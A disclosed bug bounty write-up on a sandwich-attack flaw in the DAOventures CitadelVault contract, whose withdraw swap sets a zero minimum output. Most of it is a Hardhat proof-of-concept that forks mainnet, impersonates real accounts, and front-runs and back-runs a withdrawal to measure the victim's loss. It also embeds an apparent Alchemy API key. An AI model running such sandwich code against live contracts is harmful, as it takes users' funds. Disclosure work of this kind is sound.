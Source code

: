 ```yaml
---
layout: post
title: DAOventures - Vault withdraws vulnerable to Sandwich Attacks
description: DAOventures Sandwich Attack
summary: Writeup on DAOventures Sandwich Attack
tags: solidity hacking
minute: 1
---
```


# Details
This is a report submitted through immunefi about a sandwich attack on DAOventures. The report has been paid out and closed.

# Description

## Target
https://etherscan.io/address/0x8fE826cC1225B03Aa06477Ad5AF745aEd5FE7066

## Smart Contract Bug Description
CitadelVault.sol line 338: `_amounts = router.swapExactTokensForTokens(_amountIn, 0, _path, address(this), block.timestamp);` Amount out is set to 0 which leaves withdrawing vulnerable to sandwich attacks with flashbots.

## Proof of concept/Steps to Reproduce
```
const { expect } = require("chai");
const { network, ethers, waffle } = require("hardhat");

describe("CitadelVault", function () {
  this.timeout(0);

  it("Shouldn't be sandwichable", async function () {
    weth_whale_address = "0xE78388b4CE79068e89Bf8aA7f218eF6b9AB0e9d0";
    sushi_address = "0xd9e1cE17f2641f24aE83637ab66a2cca9C378B9F";
    dai_address = "0x6b175474e89094c44da98b954eedeac495271d0f";
    weth_address = "0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2";

    withdrawer_address = "0x1c7679cf155d6df0523743bc4f26f4a08b6a7daf";
    vault_address = "0x8fE826cC1225B03Aa06477Ad5AF745aEd5FE7066";

    // Impersonate withdrawer
    await network.provider.request({
      method: "hardhat_impersonateAccount",
      params: [withdrawer_address],
    });
    await network.provider.request({
      method: "hardhat_impersonateAccount",
      params: [weth_whale_address],
    });
    const attacker = await ethers.getSigner(weth_whale_address);
    const signer = await ethers.getSigner(withdrawer_address);

    const CitadelVault = await ethers.getContractAt("CitadelVault", vault_address);
    const DAI = await ethers.getContractAt("IERC20", dai_address);
    const WETH = await ethers.getContractAt("IERC20", weth_address);
    const SUSHI = await ethers.getContractAt("IUniswapV2Router02", sushi_address);

    // Normal withdraw
    console.log("Normal withdraw");
    console.log((await DAI.balanceOf(signer.getAddress())).toString());

    await CitadelVault.connect(signer).withdraw("8492500000000000000", "2");

    const normal_withdraw_amount = await DAI.balanceOf(signer.getAddress());
    console.log((await DAI.balanceOf(signer.getAddress())).toString());

    // Reset network
    await network.provider.request({
      method: "hardhat_reset",
      params: [
        {
          forking: {
            jsonRpcUrl: "https://eth-mainnet.alchemyapi.io/v2/DywMbqEbxubKh3WjZQlDUG3MpGVpmCaM",
            blockNumber: 13017013,
          },
        },
      ],
    });
    
    await network.provider.request({
      method: "hardhat_impersonateAccount",
      params: [withdrawer_address],
    });
    await network.provider.request({
      method: "hardhat_impersonateAccount",
      params: [weth_whale_address],
    });

    // Sandwiched withdraw
    console.log("\nSandwiched withdraw");
    console.log((await DAI.balanceOf(signer.getAddress())).toString());

    // Front run sandwich swap
    trade_path = [WETH.address, DAI.address];
    inverse_trade_path = [DAI.address, WETH.address];
    const amount = await WETH.balanceOf(attacker.address);
    
    await WETH.connect(attacker).approve(SUSHI.address, amount);

    await SUSHI.connect(attacker).swapExactTokensForTokens(
      amount,
      0,
      trade_path,
      attacker.address,
      Date.now() + 500*60*10
    );

    const dai_balance = await DAI.balanceOf(attacker.address);
    
    await CitadelVault.connect(signer).withdraw("8492500000000000000", "2");
    
    // Back run sandwich swap
    await DAI.connect(attacker).approve(SUSHI.address, dai_balance);

    await SUSHI.connect(attacker).swapExactTokensForTokens(
      dai_balance,
      0,
      inverse_trade_path,
      attacker.address,
      Date.now() + 500*60*10
    );

    const sandwich_attacked_amount = await DAI.balanceOf(signer.getAddress());
    console.log((await DAI.balanceOf(signer.getAddress())).toString());

    console.log("Incurred loss: $" + ethers.utils.formatEther(normal_withdraw_amount.sub(sandwich_attacked_amount)));
    expect(sandwich_attacked_amount < normal_withdraw_amount);
  });
});
```

## Impact
Users can lose up to the entire value of their shares when withdrawing.

## Risk Breakdown
Difficulty to Exploit: `Easy`  
CVSS2 Score: `Critical`  

## Recommendation
Allow the users to supply Amount Out or utilize an oracle and calculate a slippage amount within standards

## References
https://cmichel.io/de-fi-sandwich-attacks/
